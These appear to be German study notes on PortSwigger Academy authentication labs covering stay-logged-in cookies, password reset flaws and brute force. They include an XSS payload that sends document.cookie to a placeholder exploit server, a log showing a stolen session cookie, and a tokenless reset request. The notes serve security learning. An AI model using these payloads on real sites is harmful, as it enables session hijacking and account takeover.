 ```yaml
---
created:
  - "{{date: DD-MM-YYYY}} {{time}}"
aliases:
  - "Course Code:"
  - PSS-Portswigger-Academy
tags:
  - Course/
---
```

## Andere Authentication Mechanismen

Es gibt noch weitere Mechansimen die gut abgesichert werden müssen.
- Remember Me
- Reset Password
- 


### Remember me
Oft werden diese einfach mit einem Cookie-Token vergeben -> Gefährlich kann das werden wenn dieser nicht gut gesichert implementiert wird. Manchmal wird einfach nur ein Token aus Username und Passwort erstellt und encrypted.


## Lab: Brute-forcing a stay-logged-in cookie

1. Wir melden uns mit unserem Account an und checken das Verhalten der Webseite und sehen es wird beim Login ein Encrypted Logged-In Token übergeben.
![[brute-force-stay-logged-in1.png]]
2. Nach genauerem hinsehen und decrypten haben wir festgestellt, es sind einfach nur
   `Username:Password` als encrypted
3. Hab dann an Turbo Intruder Extension geschickt und ein BF Script laufen lassen welches den Cookie bruteforced anhand von folgendem Muster base64(Username:MD5(Passwort)) (Username und Passwortliste waren ja gegeben)![[brute-force-stay-logged-in2.png]]
4. Ergebnis bei Treffer. Danach kann man Seite an Browser senden und laden lassen![[brute-force-stay-logged-in3.png]]



## Lab: Offline password cracking

1. Wieder abchecken wie die Seite funktioniert.
	- XSS möglich in Comment-Section bei Posts, Stayed-Login(No Random Hash - Base64(Username:MD5(Passwort)))
2. Danach ein Exploit in der Comment-Section bei einem Blog-Post eingeschleust welcher den stayed-login-cookie an mich sendet. - Nutzer ruft unseren Server mit angehängten Cookies auf
```js
<script>document.location="exploit-server-url"+document.cookie</script>
```
3. In den Logs sehen wir nun die angehängten Cookies 
```
10.0.4.161      2025-09-22 10:27:47 +0000 "GET /exploitsecret=IkPigWIfXzgZjVhxP8xYvFg0FVJzf7Pn;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz HTTP/1.1" 404 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```
4. Mit Decoder in Burp-Suit und Crackstation können wir den encrypteten Hash wieder decrypten



### Resetting Password

In der Praxis vergessen Nutzer oft ihre Passwörter daher ist es wichtig eine Methode einzubauen die eben ein solches zurücksetzen des Passworts möglich machen - Wichtiger ist es das auch entsprechend sicher zu machen
###### Passwörter über E-Mail
Anfällig für Man in the Middle angriffe

###### Passwörter als URL
Anfällig bei den temporären Token -> Wichtig diese gegenzuchecken sonst kann man einfach seinen eigenen POST Request zusammenstellen und das Passwort eines Users ändern nur mit dem Usernamen.

## Lab: Password reset broken logic

1. Testweise Passwort zurücksetzen mit eigenem Konto um zu schauen wie die Seite das handhabt
2. Stellen fest bei `POST /forgot-password?temp-forgot-password-token` legen wir ein neues Passwort fest mit mehreren Parametern
```
temp-forgot-password-token=c6t958p7h1mnkptraihiis0m6tykyzht&username=wiener&new-password-1=peter1&new-password-2=peter1
```
3. Testweise löschen wir den token und schauen ob die Anfrage durchgeht.
4. Anfrage geht durch und somit wissen wir, dass der Token nicht überprüft wird
5. Wir füllen die anderen Parameter und senden die Anfrage
6. Anfrage ging durch -> Passwort geändert


## Lab: Password reset poisoning via middleware

1. Mal wieder testweise schauen wie Forgot Password funktioniert und was genau gesendet und übergeben wird.
2. `POST /forgot-password` ist für uns relevant. 
	1. Wir sehen er nimmt den parameter username und host und baut damit einen tmp-token für passwort-reset
   ![[password-reset-mim1.png]]
3. User bekommt E-Mail mit exploit Link![[password-reset-mim2.png]]
4. User drückt auf Link und es wird der tmp-password-reset-token an unseren exploit-server-log geschickt
5. Key nutzen und in die `POST /forgot-password?temp-forgot-password-token=5648xegeq98d5bbx5f4a3sjw9rfxbz8d HTTP/2` einsetzen mit den anderen nötigen Parametern![[password-reset-mim3.png]]
6. Passwort für `carlos` auf `peter1` gesetzt


## Lab: Password brute-force via password change

1. Auch erstmal wieder rumprobieren und schauen welche Funktionen angreifbar sind
2. Wir schauen uns die Funktion an das Passwort zu ändern und nach mehrmaligen rumprobieren stellen wir fest, dass wir nicht ausgeloggt werden bei falschem `current password` wenn wir `neues Passwort1` und `neues Passwort2` ungleich haben -> Öffnet uns Türen zum bruteforcen
3. Wir laden den POST Request in unseren Turbo Intruder und passen die Parameter an![[brute-force-via-passwordchange1.png]]
4. Wir schauen uns an welche Length unterschiedlich ist und probieren das Passwort was dort steht.![[brute-force-via-passwordchange2.png]]
5. Erfolgreich eingeloggt

